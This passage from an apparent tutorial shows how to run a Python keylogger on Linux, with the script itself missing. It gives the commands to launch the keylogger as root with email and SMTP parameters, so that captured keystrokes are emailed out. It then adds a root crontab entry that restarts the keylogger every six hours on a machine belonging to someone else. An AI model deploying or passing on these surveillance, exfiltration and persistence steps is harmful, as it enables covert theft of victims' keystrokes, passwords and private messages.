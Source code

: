 Open your terminal, create a file called for example "keylogger.py" and copy and save the above script inside. Once you are done you must make this file executable by doing :

```bash
chmod +x keylogger.py
```

**Usage**

To start your keylogger simply execute the below command using your email parameters. Also please note, to avoid any problem, we highly recommend executing this script with **root** privileges.

```bash
# Buffer size is the number of characters saved in memory before sending an email
sudo python keylogger.py [email] [password] [smtp-server] [tls/notls] [buffer-size]
```

* * *

###### WHAT HAPPEN IF WE TURN OFF THE COMPUTER?

If the user of the computer on which we installed keylogger off or reboot his machine, this will result in the deactivation of our keylogger. So we need a persistence mechanism, to enable our keylogger automatically every time the machine it's stopped or restarted.

Linux offers us many possibilities to do this! For this tutorial, I choose to use the **crontab** option which perfectly matches our needs and very easy to use.

The command to edit the **cron** configuration file is `crontab -e` (We execute it in root because our script needs root permissions to read the keyboard event*)

```bash
sudo crontab -e
```

Once your crontab editor it's open, simply past the below configuration at the rock bottom of your cron configuration file, replacing first the parameters with your owns and save it before to exit. (The output should look like the below screenshot)

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/bede86af28b5e86c89fb2666e0c5ed16-4.png "Image-4")

```bash
00 */6 * * * ./path/to/keylogger.py [email] [password] [smtp-server] [tls/notls] [buffer-size]
```

If you want to be sure that the rules of your crontab have been taken into account by your operating system, simply use the below command to get the list of all cron jobs.

```bash
sudo crontab -l
```

To understand you have to know the syntax of cron: the numbers give the period when we start to execute the job (seconds, minutes, hours, days, days of the week, month, etc) and the command to execute follows, in our case, we run the keylogger every 6h.

**Credits**

I wanted since a very long time to write an article on how to create a Python Keylogger working on Linux machine and I must honestly send all my thanks to [melkael](https://gist.github.com/melkael) for his excellent work on the subject and the inspiration he gave me for the realization of this article. If you are french speaker I highly recommended you to read his article "[Comment créer un keylogger en moins de 20 minutes (Même quand on débute en Python)](https://maxou.io/comment-creer-keylogger-python/)"
